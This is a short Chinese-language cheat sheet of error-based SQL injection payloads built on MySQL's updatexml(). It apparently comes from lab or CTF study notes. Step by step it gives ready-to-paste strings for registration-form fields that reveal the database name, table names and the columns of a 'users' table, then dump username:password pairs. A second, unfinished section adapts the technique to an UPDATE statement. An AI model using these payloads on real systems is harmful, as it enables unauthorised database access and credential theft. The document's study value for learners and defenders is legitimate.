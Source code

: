 1. 爆库

   ```
   'or updatexml(1, concat(0x7e,database()), 0) or '
   //注册信息中，用户、密码文本框填入
   ```

2. 爆表

   ```
   'or updatexml(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'), 1) or '
   //注册信息中，用户、密码文本框填入，但是显示不全
   
   'or updatexml(1, right(concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),25), 0) or '
   //注册信息中，用户、密码文本框填入，right解决显示不全
   ```


3. 爆列名

   ```
   'or updatexml(1, concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),'~'), 0) or '
   
   'or updatexml(1, right(concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),'~'),25), 0) or '
   //注册信息中，用户、密码文本框填入
   ```


4. 爆值

   ```
   'or updatexml(1, concat(0x7e,(select group_concat(username,':',password) from users),'~'), 0) or '
   //只能看到一个数据，需要使用：where not in 
   ```




#### 2、修改信息，update语句中进行注入

当更新我们的信息，需要用到的时候update语句。

猜测后台语句：

```mysql
update tables set sex = '$sex' where name = 'sbb';
```

因此可以构造语句：

```mysql
xxx' or updatexml(1,concat(0x7e,database()),0) or '
```



1. 爆库
